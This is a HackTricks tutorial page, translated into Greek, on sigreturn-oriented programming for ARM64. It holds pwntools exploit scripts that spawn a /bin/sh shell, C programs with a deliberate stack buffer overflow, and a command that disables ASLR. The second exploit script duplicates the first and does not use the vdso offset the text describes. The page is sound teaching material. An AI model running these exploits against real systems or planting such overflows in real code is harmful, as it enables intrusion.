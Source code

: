 # SROP - ARM64

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Παράδειγμα Pwntools

Αυτό το παράδειγμα δημιουργεί το ευάλωτο δυαδικό αρχείο και το εκμεταλλεύεται. Το δυαδικό αρχείο **διαβάζει στη στοίβα** και στη συνέχεια καλεί **`sigreturn`**:
```python
from pwn import *

binsh = "/bin/sh"
context.clear()
context.arch = "arm64"

asm = ''
asm += 'sub sp, sp, 0x1000\n'
asm += shellcraft.read(constants.STDIN_FILENO, 'sp', 1024) #Read into the stack
asm += shellcraft.sigreturn() # Call sigreturn
asm += 'syscall: \n' #Easy symbol to use in the exploit
asm += shellcraft.syscall()
asm += 'binsh: .asciz "%s"' % binsh #To have the "/bin/sh" string in memory
binary = ELF.from_assembly(asm)

frame = SigreturnFrame()
frame.x8 = constants.SYS_execve
frame.x0 = binary.symbols['binsh']
frame.x1 = 0x00
frame.x2 = 0x00
frame.pc = binary.symbols['syscall']

p = process(binary.path)
p.send(bytes(frame))
p.interactive()
```
## bof παράδειγμα

### Κώδικας
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void do_stuff(int do_arg){
if (do_arg == 1)
__asm__("mov x8, 0x8b; svc 0;");
return;
}


char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
do_stuff(2);
return 0;
}
```
Μεταγλώττισε το με:
```bash
clang -o srop srop.c -fno-stack-protector
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space  # Disable ASLR
```
## Exploit

Η εκμετάλλευση εκμεταλλεύεται το bof για να επιστρέψει στην κλήση του **`sigreturn`** και να προετοιμάσει τη στοίβα για να καλέσει το **`execve`** με έναν δείκτη προς το `/bin/sh`.
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## bof παράδειγμα χωρίς sigreturn

### Κώδικας
```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char* vulnerable_function() {
char buffer[64];
read(STDIN_FILENO, buffer, 0x1000); // <-- bof vulnerability

return buffer;
}

char* gen_stack() {
char use_stack[0x2000];
strcpy(use_stack, "Hello, world!");
char* b = vulnerable_function();
return use_stack;
}

int main(int argc, char **argv) {
char* b = gen_stack();
return 0;
}
```
## Exploit

Στην ενότητα **`vdso`** είναι δυνατή η εύρεση μιας κλήσης προς **`sigreturn`** στην απόσταση **`0x7b0`**:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt="" width="563"><figcaption></figcaption></figure>

Επομένως, αν διαρρεύσει, είναι δυνατόν να **χρησιμοποιηθεί αυτή η διεύθυνση για να αποκτήσετε πρόσβαση σε ένα `sigreturn`** αν το δυαδικό αρχείο δεν το φορτώνει:
```python
from pwn import *

p = process('./srop')
elf = context.binary = ELF('./srop')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh"))

stack_offset = 72

sigreturn = 0x00000000004006e0 # Call to sig
svc_call = 0x00000000004006e4  # svc	#0x0

frame = SigreturnFrame()
frame.x8 = 0xdd            # syscall number for execve
frame.x0 = binsh
frame.x1 = 0x00             # NULL
frame.x2 = 0x00             # NULL
frame.pc = svc_call

payload = b'A' * stack_offset
payload += p64(sigreturn)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Για περισσότερες πληροφορίες σχετικά με το vdso, ελέγξτε:

{% content-ref url="../ret2vdso.md" %}
[ret2vdso.md](../ret2vdso.md)
{% endcontent-ref %}

Και για να παρακάμψετε τη διεύθυνση του `/bin/sh`, μπορείτε να δημιουργήσετε αρκετές μεταβλητές περιβάλλοντος που να δείχνουν σε αυτήν, για περισσότερες πληροφορίες:

{% content-ref url="../../common-binary-protections-and-bypasses/aslr/" %}
[aslr](../../common-binary-protections-and-bypasses/aslr/)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
